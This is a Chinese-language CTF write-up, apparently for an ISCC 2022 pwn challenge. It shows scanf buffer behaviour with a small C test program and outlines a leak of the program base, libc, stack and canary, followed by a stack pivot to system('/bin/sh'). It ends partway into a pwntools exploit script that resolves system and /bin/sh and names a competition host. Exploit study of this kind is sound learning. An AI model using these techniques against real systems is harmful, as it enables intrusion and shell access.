 （本人只是一位大一的初学者，第一次进行scanf的源码调试（关于搭建源码调试环境的文章在这里  [here]([关于gdb源码调试环境搭建 - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/16150232.html))），如果上述有理解错误的地方，还请各位师傅斧正）

这个地方是可以简单验证一下，看看是否输入字符会把后面的数字卡在缓冲区。

代码如下：

```c
#include <stdio.h>
int main()
{
	char buf [256];
	scanf("%hhd",buf);
	printf("%s",buf);
	getchar();
	gets(buf);
	return 0;
} 

```

如果只输入数字的话，getchar会把回车给读取，然后触发gets就可以再输入一次，效果如下：

<img src="ISCC_2022_pwn.assets/image-20220502203014478.png" alt="image-20220502203014478" style="width:50%;" />

如果先输入数字，再输入字符，再输入数字的话，则不会触发gets(因为字符和原本的回车都留在了缓冲区里，getchar并没有读取这个回车，导致了gets执行的时候碰到了回车，gets直接失效)，效果如下：

<img src="ISCC_2022_pwn.assets/image-20220502203303941.png" alt="image-20220502203303941" style="width:50%;" />



知道了这个原理，这道题基本就乱打了。先看一下栈里能利用的内容

![image-20220502150925505](ISCC_2022_pwn.assets/image-20220502150925505.png)

发现里面有\_start函数的地址，那用这个可以拿到程序基地址。还有个\_setbuffer函数的地址，可以用它来匹配libc库，然后再泄露个栈地址，用于之后的栈迁移，最后就是把canary给泄露出来，用于最后的劫持执行流

#### 大致思路：

我最开始泄露的是IO\_2\_1_stderr的地址，但是这样做的后果就是搜到了将近两百个版本的libc库，因此采用setbuffer函数进行泄露。

泄露的思路提前计算好要泄露的位置，然后将这些位置布置成`-` 其他位置则填充成垃圾数据，如果是六字节的栈地址，则只填充六字节的`-`，另外两字节补成垃圾数据，避免让00截断%s。

得到泄露的内容之后就是一个简单的栈迁移，提前布置system函数以及参数在栈中，改写rbp，最后用leave;ret指令完成迁移获取shell。

#### EXP:

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
def autofill_long_libc(target_vul,leak_addr):
    obj = LibcSearcher(target_vul, leak_addr)
    libc_base = leak_addr - obj.dump(target_vul)
    sys_addr = libc_base + obj.dump('system')
    bin_sh_addr = libc_base + obj.dump('str_bin_sh')
    print('libc_base---->',hex(libc_base))
    return sys_addr, bin_sh_addr
def autofill_local_libc(target_vul,leak_addr,libc):
    libc_base = leak_addr - libc.symbols[target_vul]
    sys_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + libc.search("/bin/sh").next()
    print('libc_base---->',hex(libc_base))
    return sys_addr,bin_sh_addr
#p=remote('123.57.69.203',7020)
p=process('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)
```